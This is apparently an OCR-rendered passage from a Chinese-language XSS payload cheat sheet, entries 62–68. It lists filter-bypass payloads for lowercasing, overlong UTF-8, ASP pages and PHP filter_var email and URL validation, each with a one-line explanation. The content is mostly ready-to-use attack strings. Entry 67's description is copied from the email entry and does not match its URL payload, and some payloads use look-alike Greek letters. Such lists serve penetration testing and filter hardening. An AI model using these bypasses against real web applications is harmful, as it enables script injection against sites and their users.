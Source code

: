 ##### 62.Javascript Alternative Comments (Javascript注释替代)

```
以下payload用于,当不允许、转义或删除常规javascript注释（//）时使用。

<!--
%0A-->
```

##### 63.JS Lowercased Input (javascript小写输入)

```
以下payload用于当目标应用程序通过javascript将输入转换为小写时使用。它也可以用于服务器端的小写操作。 

<SCRİPT>alert(1)</SCRİPT>
<SCRİPT/SRC=data:,alert(1)>
```

##### 64.Overlong UTF-8 (超长UTF-8)

```
以下payload用于当目标应用程序执行最佳匹配标签时使用。 

%CA%BA>%EF%BC%9Csvg/onload%EF%BC%9Dalert%EF%BC%881)>
```

##### 65.Vectors Exclusive for ASP Pages (ASP网页专用payload)

```
以下payload用于绕过.asp页中的<[alpha]筛选。

%u003Csvg οnlοad=alert(1)>
%u3008svg οnlοad=alert(2)>
%uFF1Csvg οnlοad=alert(3)>
```

##### 66.PHP Email Validation Bypass (PHP电子邮件验证绕过)

```
以下payload用于绕过PHP的FILTER_var()函数的FILTER_VALIDATE_EMAIL(筛选验证电子邮件)标志。

"><svg/οnlοad=alert(1)>"@x.y
```

##### 67.PHP URL Validation Bypass (PHP URL验证绕过)

```
以下payload用于绕过PHP的FILTER_var()函数的FILTER_VALIDATE_EMAIL(筛选验证电子邮件)标志。

javascript://%250Aalert(1)
```

##### 68.PHP URL Validation Bypass – Query Required (PHP URL验证绕过-需要查询)

```
以下payload用于绕过PHP需要筛选标志查询(FILTER_FLAG_QUERY_REQUIRED),筛选验证电子邮件(FILTER_VALIDATE_EMAIL)的filter_var()函数。

javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
(with domain filter)
javascript://https://DOMAIN/%250A1?alert(1):0
```
